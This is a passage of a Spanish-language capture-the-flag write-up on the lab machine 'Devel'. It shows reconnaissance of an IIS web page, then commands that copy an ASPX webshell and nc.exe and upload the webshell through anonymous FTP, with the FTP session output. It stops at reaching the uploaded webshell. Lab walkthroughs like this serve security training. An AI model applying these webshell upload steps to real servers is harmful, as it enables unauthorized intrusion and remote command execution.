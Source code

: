 ## RECONOCIMIENTO WEB

Procedemos a revisar la página web por el puerto `80`, obteniendo una página por defecto de un servidor `IIS`.

<p style="text-align: center;">
<img src="/assets/images/devel/03-page.png">
</p>

Inspeccionando el contenido podemos ver que la imagen se denomina como `welcome.png`, recurso que vimos anteriormente en el reconocimiento ftp.

<p style="text-align: center;">
<img src="/assets/images/devel/04-page2.png">
</p>

En esta ocasión mostraré dos maneras de realizar la intrusión a la máquina, pero antes de esto, vamos a ingresar a la carpeta `exploit`

```bash
cd ../exploit
``` 
## INTRUSION WEBSHELL                                                                           
Vamos a localizar una webshell de `aspx` y la utilidad `nc.exe` para poder obtener nuestra primera intrusión.

```bash
locate .aspx
cp /usr/share/davtest/backdoors/aspx_cmd.aspx console.aspx
locate nc.exe
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Nos conectamos nuevamente por `ftp` y cargamos la webshell que denominamos como `console.aspx`.

```bash
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:bast1ant1c): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put console.aspx 
local: console.aspx remote: console.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1438 bytes sent in 0.00 secs (18.7861 MB/s)
```

Tenemos nuestra webshell en la máquina y lo podemos comprobar al ingresar al recurso en el navegador `http://10.10.10.5/console.aspx`
